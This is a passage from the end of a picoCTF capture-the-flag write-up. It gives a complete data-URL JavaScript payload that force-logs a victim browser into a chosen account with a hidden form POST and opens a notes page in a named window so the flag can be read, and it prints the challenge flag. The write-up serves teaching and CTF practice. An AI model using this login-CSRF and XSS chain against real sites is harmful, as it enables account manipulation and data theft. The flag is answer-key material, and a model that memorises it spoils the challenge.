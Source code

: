 One last trick. You have to set the instance URL to be `0.0.0.0:8080` (or some other variation on lcoalhost) for the exploit to work. That being said, heres the final URL to report:
`data:text/html,<body><script>const instance="http://0.0.0.0:8080",xssUser={username:"b",password:"b"};function awaitOnload(e){return new Promise(n=>e.onload=(()=>n(e)))}function loadFrame(e,n){const t=document.createElement("iframe");t.name=n,t.src=e;const o=awaitOnload(t);return document.body.appendChild(t),o}function createForm(e,n){const t=document.createElement("form");return t.method=e,t.action=n,t}function createFormInput(e,n,t){const o=document.createElement("input");o.type="hidden",o.name=n,o.value=t,e.appendChild(o)}function sleep(e){return new Promise(n=>setTimeout(n,e))}!async function(){const e=createForm("POST",instance+"/login");createFormInput(e,"username",xssUser.username),createFormInput(e,"password",xssUser.password),document.body.appendChild(e),await sleep(1e3),window.open(instance+"/notes","flag"),await sleep(3e3),e.submit()}();</script>`

And this gives us the flag:

![Screenshot of the exfiltrated flag](Pasted%20image%2020220327160707.png)

Flag: `picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`
